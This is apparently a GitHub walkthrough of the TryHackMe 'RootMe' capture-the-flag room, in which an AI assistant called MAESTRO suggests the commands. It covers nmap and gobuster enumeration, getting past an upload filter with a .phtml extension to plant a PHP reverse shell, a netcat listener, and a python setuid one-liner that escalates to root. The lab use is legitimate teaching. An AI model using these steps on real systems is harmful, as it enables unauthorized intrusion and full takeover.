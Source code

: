 # TryHackMe RootMe Walkthrough with MAESTRO

This walkthrough will guide you through the **RootMe** room on TryHackMe, using the **MAESTRO AI assistant** to help automate and understand key parts of the pentesting process.

---

## 🛠 Prerequisites

- [ ] A TryHackMe account
- [ ] Access to the **RootMe** room: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)
- [ ] MAESTRO running and accessible
- [ ] AttackBox started via TryHackMe interface

---

## 🚀 Step-by-Step Walkthrough

### 🔹 Step 1: Launch MAESTRO
Make sure your MAESTRO instance is up and running.

![MAESTRO_Home_Screen](https://github.com/user-attachments/assets/d5144a29-b8b5-468e-93f5-7b599f196230)

---

### 🔹 Step 2: Start the Room
1. Go to [RootMe Room](https://tryhackme.com/room/rrootme)
2. Complete Task 1
3. Start the **AttackBox**

---

### 🔹 Step 3: Begin Enumeration (Task 2)

#### 🧠 Prompt MAESTRO:
```
I am working through a TryHackMe room and need your assistance. How can I scan the machine and check how many ports are open? The IP address is {IP_ADDRESS}
```
![Response](https://github.com/user-attachments/assets/39497a22-f27e-4665-9683-186efca4ca74)

#### ✅ Command:
```bash
nmap -sV -p- {IP_ADDRESS}
```
![Terminal Output](https://github.com/user-attachments/assets/03b5cfb1-f104-49f7-a65d-a0708acce174)

#### 🧠 Next Prompt:
```
Now I have been asked to find directories on the Apache web server using GoBuster. How do I do this?
```
![Response](https://github.com/user-attachments/assets/c3ad5a46-c159-4156-8d31-b032719b9bda)

#### ✅ Command:
```bash
gobuster dir -u http://{TARGET_IP} -w /usr/share/wordlists/dirb/common.txt -t 50
```
![Terminal Output](https://github.com/user-attachments/assets/6da38b44-e41e-4d36-a059-f35326f499ff)

Take note of any interesting files or directories, especially `index.php`.

#### 🧠 Final Prompt for Task 2:
```
My gobuster command returned these interesting directories: /css, /js, /panel, and /uploads. Which of these is the hidden directory?
```
![Response](https://github.com/user-attachments/assets/3b4515e7-d912-4ae4-a9c2-5a53fdd728e8)

MAESTRO identifies **`/panel`** as the likely hidden directory.

---

### 🔹 Step 4: Upload Reverse Shell (Task 3)

#### 🧠 Prompt:
```
My task is to find a form to upload a PHP reverse shell and find the flag. How do I do this?
```
![Response](https://github.com/user-attachments/assets/9d3b5312-ca7a-4bdd-b49e-23e927a4dd83)

MAESTRO responds with a template: `php_reverse_shell.php`. After attempting to upload this to the http://{VICTIM_IP}/panel webpage, it is unsuccessful, saying it does not accept .php files. So, we can prompt MAESTRO with how to get around this.

NOTE: you can also prompt MAESTRO for where a PHP reverse shell is already available on the AttackBox VM.
#### 🧠 Prompt:
```
Where can I find php_reverse_shell.php on a TryHackMe AttackBox VM?
```
![Response](https://github.com/user-attachments/assets/a97a1d57-f282-499d-b1d2-96c5c5feaa51)

#### 🧠 Prompt:
```
The /panel page won't allow me to upload a .php file to upload the reverse shell. How do I get around this?
```
![Response](https://github.com/user-attachments/assets/951b8cad-7410-44ad-a6c1-ed38bcd210a8)

🔄 **Tip**: After testing each of the file extensions, the file extension `.phtml` proves successful.

Upload it to:  
```
http://{VICTIM_IP}/panel
```
![/panel Webpage](https://github.com/user-attachments/assets/2183799f-a39c-4f0a-8a2e-47ca6f9a1bfd)
![Upload PHP Reverse Shell File](https://github.com/user-attachments/assets/082c316a-c376-412e-ad73-148cba0f05b6)

View it at:  
```
http://{VICTIM_IP}/uploads
```
## Setup a listener to catch the reverse shell:
#### 🧠 Prompt:
```
I need to set up a listener on port 4444 to catch the reverse shell. How do I do this?
```
![Response](https://github.com/user-attachments/assets/df585cb1-3818-4e73-910c-32e082ce9a23)

#### ✅ Command:
```bash
nc -lvnp 4444
```
![Terminal Output](https://github.com/user-attachments/assets/fdf3b126-483f-406b-aa18-e61e6a67c6f8)

Click the uploaded `.phtml` file to trigger the shell.

---
![Reverse Shell](https://github.com/user-attachments/assets/e8066eb6-f727-439b-be68-3c58930e42b3)

### 🔹 Step 5: Capture the Flag

#### 🧠 Prompt:
```
I need to find a flag in user.txt. How do I find this file?
```
![Response](https://github.com/user-attachments/assets/97afb697-9c45-48e2-bf93-9926c02b02f9)

#### ✅ Command:
```bash
find / -name user.txt 2>/dev/null
```
MAESTRO provides a command to locate the `user.txt` file. Open it to get the flag and complete Task 3.

![Terminal Output](https://github.com/user-attachments/assets/85676859-91a8-4e52-9eb7-de1e656ef7b2)

---

### 🔹 Step 6: Privilege Escalation (Task 4)

#### 🧠 Prompt:
```
Now I have to search for files with SUID permission and find which file is weird. How do I do this?
```
![Response](https://github.com/user-attachments/assets/7863af7c-3642-4795-a8a7-225869044311)
![Response](https://github.com/user-attachments/assets/645458ac-0204-4b30-bb6d-e7185d7f7661)

#### ✅ Command:
```bash
find / -type f -perm -4000 2>/dev/null
```

After searching for SUID files, we can give MAESTRO the files returned and ask which one we can use for privilege escalation.
#### 🧠 Prompt:
```
These are the SUID files that were returned, which of them can I use for privilege escalation? {Copy and paste files found here}
```
![Response](https://github.com/user-attachments/assets/8daf7deb-2eb9-4e7f-b1bd-ad4203db1f7a)
![Response Continued](https://github.com/user-attachments/assets/1b1151af-2b04-45c4-956e-8c8cdd7ab110)

Use the /usr/bin/python privilege escalation method given by MAESTRO.
#### ✅ Command:
```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
![Terminal Output](https://github.com/user-attachments/assets/a494ddc5-0438-432a-92bd-87b887381bfb)

As shown in the screenshot above, you can use the same technique for finding the flag in this root.txt as for finding the flag in user.txt. Once you have done this, you have successfully completed the Rootme TryHackMe room!

---

## 📜 Notes

- Use MAESTRO throughout for command recommendations and clarifications.
- Remember to update placeholders like `{IP_ADDRESS}` and `{TARGET_IP}`.
- Don’t forget to clean up any shells or listeners you’ve opened once you’re done.

---
